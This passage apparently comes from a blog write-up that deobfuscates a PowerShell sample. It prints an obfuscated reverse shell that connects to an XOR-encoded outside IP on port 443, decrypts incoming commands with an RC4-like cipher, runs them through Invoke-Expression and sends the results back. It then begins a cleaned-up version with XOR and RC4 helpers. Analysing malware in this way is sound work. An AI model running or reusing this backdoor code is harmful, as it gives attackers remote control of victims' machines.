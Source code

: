                  }
 $BBBB8BBBBBB8B88B = New-Object System.Net.Sockets.TcpClient
                    $BBBB8BBBBBB8B88B.Connect((IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(5,7,25,2,25,3,15,25,5,7,7) -BB8BB8B8BBB8B8B8 55), ((50 * 9) - (11 * 2)) + [math]::Pow(2, 3) + [math]::Sqrt(49))
      $BBBB888888B88BBB = $BBBB8BBBBBB8B88B.GetStream()
 $BB88888BB8B8B8BB = llIIlllllIIIlllI
        $BBBB888888B88BBB.Write($BB88888BB8B8B8BB, 0, $BB88888BB8B8B8BB.Length)
        $B8B888BB8B8888BB = New-Object byte[] 16384
          $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, $B8B888BB8B8888BB.Length) | Out-Null
                  while ($true) {
              $B8B888BB8B8888BB = New-Object byte[] 16384
      try {
                     $B888BBB8B8B88B8B = $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, 16384)
                 } catch {
                    break
              }
                        $BBBB8888BBBBB8BB = $B8B888BB8B8888BB[5..($B888BBB8B8B88B8B - 1)]
                $B8B88B8BB888BBB8 = [System.Text.Encoding]::UTF8.GetString((lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $BBBB8888BBBBB8BB))
                         if ($B8B88B8BB888BBB8 -eq (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(109,112,97,124) -BB8BB8B8BBB8B8B8 8)) { break }
                      try {
                             $BB88B8B8BBBB888B = (Invoke-Expression $B8B88B8BB888BBB8 2>&1) | Out-String
                      } catch {
                   $BB88B8B8BBBB888B = (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(186,141,141,144,141) -BB8BB8B8BBB8B8B8 255)
      }
          $BBBB8BB88BB888B8 = lllIIlIIlIllllll -B888BBBBB8B8B8BB $BB88B8B8BBBB888B.Trim()
                       $BBBB888888B88BBB.Write($BBBB8BB88BB888B8, 0, $BBBB8BB88BB888B8.Length)
            }
              $BBBB888888B88BBB.Close()
                $BBBB8BBBBBB8B88B.Close()
{% endhighlight %}

After cleaning this mess up a bit I end with up the script

{% highlight powershell %}
# XOR Decryptor
function Decrypt-XOR {
    param([int[]]$data, [int]$key)
    return -join ($data | ForEach-Object { [char]($_ -bxor $key) })
}

# RC4-like encryption/decryption
function RC4-Transform {
    param ([byte[]]$key, [byte[]]$data)
    $S = 0..255
    $j = 0
    for ($i = 0; $i -lt 256; $i++) {
        $j = ($j + $S[$i] + $key[$i % $key.Length]) % 256
        $S[$i], $S[$j] = $S[$j], $S[$i]
    }
    $i = 0
    $j = 0
    $output = @()
    foreach ($byte in $data) {
        $i = ($i + 1) % 256
        $j = ($j + $S[$i]) % 256
        $S[$i], $S[$j] = $S[$j], $S[$i]
        $k = $S[($S[$i] + $S[$j]) % 256]
        $output += ($byte -bxor $k)
    }
